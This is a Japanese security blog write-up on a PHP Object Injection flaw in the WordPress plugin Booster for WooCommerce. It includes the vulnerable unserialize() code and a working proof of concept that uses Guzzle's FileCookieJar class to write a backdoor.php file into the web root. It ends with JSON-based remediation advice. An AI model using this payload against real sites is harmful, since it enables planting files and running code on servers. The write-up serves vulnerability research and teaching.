 ## :spy: PHP Object Injection

[OWSAP](https://www.owasp.org/index.php/PHP_Object_Injection)によると、PHP Object Injectionは以下のように記載されています。

>PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope. 

要約すると、例えばcookieにserialize関数でシリアル化したデータを書き込んで、サーバ側で受け取る時はunserialize関数でオブジェクトに復元しているような処理がある場合に、攻撃者によって不正に操作されたデータを復元してしまい、ファイルの改ざんやバックドアを仕込むなどの攻撃をされてしまう脆弱性になります。徳丸先生のサイトにサンプルコード付きで分かりやすい解説がありますのでPHP Object Injectionを初めて聞いたという方はそちらをご覧ください。

[安全でないデシリアライゼーション(Insecure Deserialization)入門 ](https://blog.tokumaru.org/2017/09/introduction-to-object-injection.html)

今回ご紹介するPHP Object Injectionは、「Booster for WooCommerce」というプラグインで見つかったものです。このプラグインはWooCommerceに様々な機能を追加してくれるのですが、その中のユーザーのEメール認証機能に脆弱性がありました。

では、問題のあった箇所を見てみましょう。

```php
function process_email_verification(){
  if ( isset( $_GET['wcj_verify_email'] ) ) {
    $data = unserialize( base64_decode( $_GET['wcj_verify_email'] ) );
    if ( get_user_meta( $data['id'], 'wcj_activation_code', true ) == $data['code'] ) {
      update_user_meta( $data['id'], 'wcj_is_activated', '1' );
      wc_add_notice( do_shortcode( get_option( 'wcj_emails_verification_success_message',
        __( '<strong>Success:</strong> Your account has been activated!', 'woocommerce-jetpack' ) ) ) );
```

この関数は、メールで送った認証用URLにユーザーがアクセスした場合に実行される関数で、GETパラメータとして```wcj_verify_email```というアクティベーションコードを受け取っています。そして、受け取ったパラメータをそのまま```unserialize```で復元しています。つまり、攻撃者は以下のような形で簡単に攻撃することができます。

```
http://xxxxxxxxxxxx/?wcj_verify_email=（不正に操作されたデータ）
```

ただ、処理を見ると復元したデータからidとcodeを取りだしているだけなので、WordPressのクラスを復元させたところで攻撃は難しそうです。```__wakeup```や```__destruct```でWordPress内のクラスやこのプラグイン内のクラスをgrepしてみましたが、特に攻撃に使えそうなクラスは見つかりませんでした。

ただし、他にプラグインを入れていてそれが利用できる場合もあります。いろいろ探したところ「Constant Contact Forms」というプラグインを入れると攻撃ができたのでご紹介したいと思います。このプラグインはConstant ContactというマーケティングツールのWordPress用プラグインで、このプラグイン自体に脆弱性がある訳ではないのですが、このプラグインに存在するクラスの一つが攻撃に利用できます。

このプラグインが利用しているサードパーティ製ライブラリが以下のように存在しており、composerのautoloadで動的に呼び出すことができるようになっています。

![サードパーティ製ライブラリ](./5eadfb0f-7214-4ecb-63df-22ff5ca031d4.gif)

そして、ここで利用するのが「Guzzle」というよく利用されているHTTPクライアントライブラリです。このライブラリの中に```FileCookieJar```というクラスがあるのですが、コードを見ると```__destruct```が以下のように定義されています。

```php
public function __destruct()
{
  $this->save($this->filename);
}

public function save($filename)
{
  $json = [];
  foreach ($this as $cookie) {
    if ($cookie->getExpires() && !$cookie->getDiscard()) {
      $json[] = $cookie->toArray();
    }
  }

  if (false === file_put_contents($filename, json_encode($json))) {
    // @codeCoverageIgnoreStart
    throw new \RuntimeException("Unable to save file {$filename}");
    // @codeCoverageIgnoreEnd
  }
}
```

デストラクタが呼ばれたタイミングでファイルを出力しているのが分かるかと思います。では、これを利用して悪意のあるデータを作ってみたいと思います。まず、Guzzleを用意した環境で以下のようなコードを書き、シリアライズ化したデータを出力します。

```php
$obj = new GuzzleHttp\Cookie\FileCookieJar('/var/wwww/html/backdoor.php');
$payload = '<?php echo phpinfo(); ?>';
$obj->setCookie(new GuzzleHttp\Cookie\SetCookie([
  'Name' => 'hoge',
  'Value' => 'hoge',
  'Domain' => $payload,
  'Expires' => time()
]));
echo base64_encode(serialize(new ArrayObject($obj)));
```

そうすると以下のようなデータが得られます。

![シリアライズデータ](./04cf5e11-880a-8b23-60d1-e4030b231758.gif)

そうしたら、このデータをwcj_verify_emailパラメータにセットしてリクエストを送ってみます。

![レスポンス](./5d89c190-dd76-8a0b-b2e2-d74834fc4180.gif)

idとcodeがないのでNoticeが出ましたがトップページが返って来ました。次に/var/wwww/html/を見てみます。

![ドキュメントルート](./5a14682f-efa8-fb4f-e38a-30682b18a917.gif)

backdoor.phpというファイルが作成されました。ファイルの中を見ると以下のようになっています。

```php
[{"Name":"hoge","Value":"hoge","Domain":"<?php echo phpinfo(); ?>","Path":"\/","Max-Age":null,"Expires":1517837122,"Secure":false,"Discard":false,"HttpOnly":false}]
```

cookieデータが出力されていますが、Domainの部分にphpコードがあるのが分かるかと思います。では、backdoor.phpにアクセスしてみます。

![backdoor](./b80bfd41-216f-a11c-372b-bf439895a9ee.gif)

このような形でphpinfoが表示されてしまいました。PHP Object Injectionが非常に危険な脆弱性であるということがお分かり頂けたかと思います。PHPのunserialize関数のマニュアルには以下のように記載されています。

http://php.net/manual/ja/function.unserialize.php

>**警告** allowed_classes の options の値にかかわらず、 ユーザーからの入力をそのまま unserialize() に渡してはいけません。 アンシリアライズの時には、オブジェクトのインスタンス生成やオートローディングなどで コードが実行されることがあり、悪意のあるユーザーがこれを悪用するかもしれないからです。 シリアル化したデータをユーザーに渡す必要がある場合は、安全で標準的なデータ交換フォーマットである JSON などを使うようにしましょう。 json_decode() および json_encode() を利用します。 

マニュアルに記載されていうように```json_decode```および```json_encode```を使うようにしてください。

## まとめ
今回も前回と同様に修正前後のソースコードを比較しながら一つひとつ検証しましたが、実際にどういった攻撃が可能なのか攻撃者目線で考えてみると新しい発見があり大変勉強になりました。皆さんも機会があれば、さらに深く脆弱性について考えてみてはいかがでしょうか？（内容に間違いなどありましたらご指摘頂けると幸いです）

